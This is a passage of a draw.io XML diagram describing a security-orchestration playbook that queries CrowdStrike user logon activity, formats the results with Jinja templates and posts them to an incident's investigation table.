        <mxCell id="NKeEgVbL9whLPdXC6YmX-139" value="&lt;h1&gt;Output&lt;/h1&gt;&lt;p&gt;[&lt;/p&gt;&lt;p&gt;&amp;nbsp; {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;User&quot;: &quot;&quot;&lt;/p&gt;&lt;p&gt;&amp;nbsp; },&lt;/p&gt;&lt;p&gt;&amp;nbsp; {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;User&quot;: &quot;Administrator&quot;&lt;/p&gt;&lt;p&gt;&amp;nbsp; }&lt;/p&gt;&lt;p&gt;]&lt;/p&gt;" style="text;html=1;strokeColor=none;fillColor=default;spacing=5;spacingTop=-20;whiteSpace=wrap;overflow=hidden;rounded=0;" vertex="1" parent="1">
          <mxGeometry x="2815" y="650" width="200" height="100" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-145" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;" edge="1" parent="1" source="NKeEgVbL9whLPdXC6YmX-140" target="NKeEgVbL9whLPdXC6YmX-144">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-140" value="Unwind&lt;br&gt;Stage -&amp;nbsp;" style="whiteSpace=wrap;html=1;rounded=1;" vertex="1" parent="1">
          <mxGeometry x="3120" y="540" width="120" height="60" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-142" value="&lt;h1&gt;Input&lt;/h1&gt;&lt;div&gt;&lt;/div&gt;&lt;div&gt;&lt;div&gt;Command Name&lt;/div&gt;&lt;div&gt;RSA_InvestigationTableUpdate&lt;/div&gt;&lt;div&gt;Parameter 1: Incident No.&lt;/div&gt;&lt;div&gt;20230425-1573&lt;/div&gt;&lt;div&gt;Parameter 2: Investigation Section&lt;/div&gt;&lt;div&gt;Findings: Data Correlations&lt;/div&gt;&lt;div&gt;Parameter 3: Data&lt;/div&gt;&lt;div&gt;[&quot;&quot;]&lt;/div&gt;&lt;div&gt;Parameter 4: Data Field Title&lt;/div&gt;&lt;div&gt;Parameter 5: Data Field Name&lt;/div&gt;&lt;div&gt;Parameter 6: Title&lt;/div&gt;&lt;div&gt;Recipients Information from Azure AD&lt;/div&gt;&lt;div&gt;Parameter 7: Description&lt;/div&gt;&lt;div&gt;Get user information from Azure AD&lt;/div&gt;&lt;div&gt;Parameter 8: Highlight Values&lt;/div&gt;&lt;div&gt;[&quot;phish@d3soar.com&quot;,&quot;support@d3soar.com&quot;]&lt;/div&gt;&lt;/div&gt;&lt;p&gt;&lt;/p&gt;" style="text;html=1;strokeColor=none;fillColor=default;spacing=5;spacingTop=-20;whiteSpace=wrap;overflow=hidden;rounded=0;" vertex="1" parent="1">
          <mxGeometry x="2815" y="880" width="200" height="100" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-149" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;" edge="1" parent="1" source="NKeEgVbL9whLPdXC6YmX-144" target="NKeEgVbL9whLPdXC6YmX-148">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-151" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;entryX=0;entryY=0.5;entryDx=0;entryDy=0;" edge="1" parent="1" source="NKeEgVbL9whLPdXC6YmX-144" target="NKeEgVbL9whLPdXC6YmX-150">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-144" value="Get User Logon Info&lt;br&gt;Command - RSA_CrowdstrikeUserLogonActivity" style="whiteSpace=wrap;html=1;rounded=1;" vertex="1" parent="1">
          <mxGeometry x="3320" y="540" width="290" height="60" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-146" value="&lt;h1&gt;Input&lt;/h1&gt;&lt;div&gt;&lt;/div&gt;&lt;div&gt;Command Name&lt;/div&gt;&lt;div&gt;RSA_CrowdstrikeUserLogonActivity&lt;/div&gt;&lt;div&gt;Parameter 1: Username&lt;/div&gt;&lt;div&gt;Administrator&lt;/div&gt;&lt;div&gt;Parameter 2: Last Hours&lt;/div&gt;&lt;div&gt;96&lt;/div&gt;&lt;br&gt;&lt;br&gt;&lt;br&gt;&lt;p&gt;&lt;/p&gt;" style="text;html=1;strokeColor=none;fillColor=default;spacing=5;spacingTop=-20;whiteSpace=wrap;overflow=hidden;rounded=0;" vertex="1" parent="1">
          <mxGeometry x="3365" y="340" width="200" height="100" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-147" value="&lt;h1&gt;Output&lt;/h1&gt;&lt;p&gt;Passdown to playbook data&lt;/p&gt;" style="text;html=1;strokeColor=none;fillColor=default;spacing=5;spacingTop=-20;whiteSpace=wrap;overflow=hidden;rounded=0;" vertex="1" parent="1">
          <mxGeometry x="3365" y="380" width="200" height="100" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-157" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;" edge="1" parent="1" source="NKeEgVbL9whLPdXC6YmX-148" target="NKeEgVbL9whLPdXC6YmX-156">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-148" value="Extract Logon Host Aids&lt;br&gt;Data Formatter -&amp;nbsp;" style="whiteSpace=wrap;html=1;rounded=1;" vertex="1" parent="1">
          <mxGeometry x="3670" y="480" width="210" height="60" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-150" value="Investigation-Correlate User Logon Activity" style="whiteSpace=wrap;html=1;rounded=1;" vertex="1" parent="1">
          <mxGeometry x="3670" y="620" width="240" height="60" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-152" value="&lt;h1&gt;Input&lt;/h1&gt;&lt;div&gt;&lt;/div&gt;&lt;div&gt;&lt;div&gt;Data Formatter&lt;/div&gt;&lt;div&gt;{% set hostAids = PlaybookData | jsonpath(&#39;$.[&quot;Get User Logon Info&quot;].returnData.resources[*].aid&#39;)|to_list|unique|remove_empty_value_from_array%}&lt;/div&gt;&lt;div&gt;&lt;br&gt;&lt;/div&gt;&lt;div&gt;{{hostAids}}&lt;/div&gt;&lt;/div&gt;&lt;br&gt;&lt;br&gt;&lt;br&gt;&lt;p&gt;&lt;/p&gt;" style="text;html=1;strokeColor=none;fillColor=default;spacing=5;spacingTop=-20;whiteSpace=wrap;overflow=hidden;rounded=0;" vertex="1" parent="1">
          <mxGeometry x="3675" y="310" width="200" height="100" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-153" value="&lt;h1&gt;Output&lt;/h1&gt;&lt;p&gt;Passdown to playbook data&lt;/p&gt;" style="text;html=1;strokeColor=none;fillColor=default;spacing=5;spacingTop=-20;whiteSpace=wrap;overflow=hidden;rounded=0;" vertex="1" parent="1">
          <mxGeometry x="3675" y="350" width="200" height="100" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-154" value="&lt;h1&gt;Input&lt;/h1&gt;&lt;div&gt;&lt;/div&gt;&lt;div&gt;&lt;div&gt;Command Name&lt;/div&gt;&lt;div&gt;RSA_InvestigationTableUpdate&lt;/div&gt;&lt;div&gt;Parameter 1: Incident No.&lt;/div&gt;&lt;div&gt;20230425-1573&lt;/div&gt;&lt;div&gt;Parameter 2: Investigation Section&lt;/div&gt;&lt;div&gt;Findings: Data Correlations&lt;/div&gt;&lt;div&gt;Parameter 3: Data&lt;/div&gt;&lt;div&gt;[{&#39;User Name&#39;: Undefined, &#39;Host Name&#39;: Undefined, &#39;Timestamp&#39;: Undefined, &#39;Local IP&#39;: &#39;&#39;, &#39;Remote IP&#39;: &#39;&#39;, &#39;Country&#39;: &#39;&#39;, &#39;City&#39;: &#39;&#39;}]&lt;/div&gt;&lt;div&gt;Parameter 4: Data Field Title&lt;/div&gt;&lt;div&gt;Parameter 5: Data Field Name&lt;/div&gt;&lt;div&gt;Parameter 6: Title&lt;/div&gt;&lt;div&gt;User Login Activity in last 4 days&lt;/div&gt;&lt;div&gt;Parameter 7: Description&lt;/div&gt;&lt;div&gt;Parameter 8: Highlight Values&lt;/div&gt;&lt;div&gt;[]&lt;/div&gt;&lt;/div&gt;&lt;br&gt;&lt;br&gt;&lt;br&gt;&lt;p&gt;&lt;/p&gt;" style="text;html=1;strokeColor=none;fillColor=default;spacing=5;spacingTop=-20;whiteSpace=wrap;overflow=hidden;rounded=0;" vertex="1" parent="1">
          <mxGeometry x="3675" y="720" width="200" height="100" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-155" value="&lt;h1&gt;Output&lt;/h1&gt;&lt;p&gt;Passdown to playbook data&lt;/p&gt;" style="text;html=1;strokeColor=none;fillColor=default;spacing=5;spacingTop=-20;whiteSpace=wrap;overflow=hidden;rounded=0;" vertex="1" parent="1">
          <mxGeometry x="3675" y="770" width="200" height="100" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-161" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;" edge="1" parent="1" source="NKeEgVbL9whLPdXC6YmX-156" target="NKeEgVbL9whLPdXC6YmX-160">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-156" value="Merge Results&lt;br&gt;Merge" style="whiteSpace=wrap;html=1;rounded=1;" vertex="1" parent="1">
          <mxGeometry x="4005" y="480" width="120" height="60" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-158" value="&lt;h1&gt;Input&lt;/h1&gt;&lt;div&gt;&lt;/div&gt;&lt;div&gt;&lt;div&gt;Command Name&lt;/div&gt;&lt;div&gt;Merge&lt;/div&gt;&lt;div&gt;Parameter 1: Condition&lt;/div&gt;&lt;div&gt;{&quot;groupBy&quot;:&quot;Playbook Instance&quot;,&quot;dataJsonPath&quot;:&quot;$[&#39;Extract Logon Host Aids&#39;].returnData&quot;}&lt;/div&gt;&lt;/div&gt;&lt;br&gt;&lt;br&gt;&lt;br&gt;&lt;p&gt;&lt;/p&gt;" style="text;html=1;strokeColor=none;fillColor=default;spacing=5;spacingTop=-20;whiteSpace=wrap;overflow=hidden;rounded=0;" vertex="1" parent="1">
          <mxGeometry x="3990" y="320" width="200" height="100" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-159" value="&lt;h1&gt;Output&lt;/h1&gt;&lt;p&gt;{&lt;/p&gt;&lt;p&gt;&amp;nbsp; &quot;options&quot;: {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;groupBy&quot;: &quot;Playbook Instance&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;dataJsonPath&quot;: &quot;$[&#39;Extract Logon Host Aids&#39;].returnData&quot;&lt;/p&gt;&lt;p&gt;&amp;nbsp; },&lt;/p&gt;&lt;p&gt;&amp;nbsp; &quot;total&quot;: 2,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &quot;match&quot;: true&lt;/p&gt;&lt;p&gt;}&lt;/p&gt;" style="text;html=1;strokeColor=none;fillColor=default;spacing=5;spacingTop=-20;whiteSpace=wrap;overflow=hidden;rounded=0;" vertex="1" parent="1">
          <mxGeometry x="3990" y="355" width="200" height="100" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-160" value="Reformat Data&lt;br&gt;Data Formatter -&amp;nbsp;" style="whiteSpace=wrap;html=1;rounded=1;" vertex="1" parent="1">
          <mxGeometry x="4280" y="480" width="120" height="60" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-162" value="&lt;h1&gt;Input&lt;/h1&gt;&lt;div&gt;&lt;/div&gt;&lt;div&gt;&lt;div&gt;Data Formatter&lt;/div&gt;&lt;div&gt;{% set data = PlaybookData | jsonpath(&#39;$.[&quot;Merge Results&quot;].rawData&#39;)|to_list %}&lt;/div&gt;&lt;div&gt;&lt;br&gt;&lt;/div&gt;&lt;div&gt;&lt;br&gt;&lt;/div&gt;&lt;div&gt;{% set outArray = []%}&lt;/div&gt;&lt;div&gt;{% for items in data if data%}&lt;/div&gt;&lt;div&gt;&amp;nbsp; &amp;nbsp; {% for item in items if items%}&lt;/div&gt;&lt;div&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; {% set _temp = outArray.append(item)%}&lt;/div&gt;&lt;div&gt;&amp;nbsp; &amp;nbsp; {% endfor %}&lt;/div&gt;&lt;div&gt;{% endfor %}&lt;/div&gt;&lt;div&gt;{{outArray}}&lt;/div&gt;&lt;/div&gt;&lt;br&gt;&lt;br&gt;&lt;br&gt;&lt;p&gt;&lt;/p&gt;" style="text;html=1;strokeColor=none;fillColor=default;spacing=5;spacingTop=-20;whiteSpace=wrap;overflow=hidden;rounded=0;" vertex="1" parent="1">
          <mxGeometry x="4250" y="320" width="200" height="100" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-163" value="&lt;h1&gt;Output&lt;/h1&gt;&lt;p&gt;Passdown to playbook data&lt;/p&gt;" style="text;html=1;strokeColor=none;fillColor=default;spacing=5;spacingTop=-20;whiteSpace=wrap;overflow=hidden;rounded=0;" vertex="1" parent="1">
          <mxGeometry x="4250" y="355" width="200" height="100" as="geometry" />
        </mxCell>
      </root>
    </mxGraphModel>
  </diagram>
</mxfile>
